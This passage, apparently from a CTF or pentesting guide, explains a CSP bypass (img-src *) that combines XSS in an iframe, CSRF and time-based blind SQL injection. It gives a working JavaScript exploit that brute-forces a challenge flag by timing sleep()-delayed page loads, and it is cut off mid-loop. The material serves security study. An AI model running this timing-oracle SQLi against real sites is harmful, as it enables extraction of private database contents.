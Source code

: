 ```
### img-src \*; via XSS (iframe) - Time attack

Notice the lack of the directive `'unsafe-inline'`\
This time you can make the victim **load** a page in **your control** via **XSS** with a `<iframe`. This time you are going to make the victim access the page from where you want to extract information (**CSRF**). You cannot access the content of the page, but if somehow you can **control the time the page needs to load** you can extract the information you need.

This time a **flag** is going to be extracted, whenever a **char is correctly guessed** via SQLi the **response** takes **more time** due to the sleep function. Then, you will be able to extract the flag:

```html

 // The bot will load an URL with the payload
<script>
  let host = "http://x-oracle-v1.nn9ed.ka0labs.org"
  function gen(x) {
    x = escape(x.replace(/_/g, "\\_"))
    return `${host}/admin/search/x'union%20select(1)from%20challenge%20where%20flag%20like%20'${x}%25'and%201=sleep(0.1)%23
  }

  function gen2(x) {
    x = escape(x)
    return `${host}/admin/search/x'union%20select(1)from%20challenge%20where%20flag='${x}'and%201=sleep(0.1)%23
  }

  async function query(word, end = false) {
    let h = performance.now()
    f.location = end ? gen2(word) : gen(word)
    await new Promise((r) => {
      g.onload = r
    })
    let diff = performance.now() - h
    return diff > 300
  }

  let alphabet = "_abcdefghijklmnopqrstuvwxyz0123456789".split("")
  let postfix = "}"

  async function run() {
    let prefix = "nn9ed{"
    while (true) {
      let i = 0
      for (i; i < alphabet.length; i++) {
        let c = alphabet[i]
        let t = await query(prefix + c) // Check what chars returns TRUE or FALSE
        console.log(prefix, c, t)
        if (t) {
          console.log("FOUND!")
          prefix += c
          break
        }
      }
      if (i == alphabet.length) {
        console.log("missing chars")
        break
      }
      let t = await query(prefix + "}", true)
      if (t) {
        prefix += "}"
```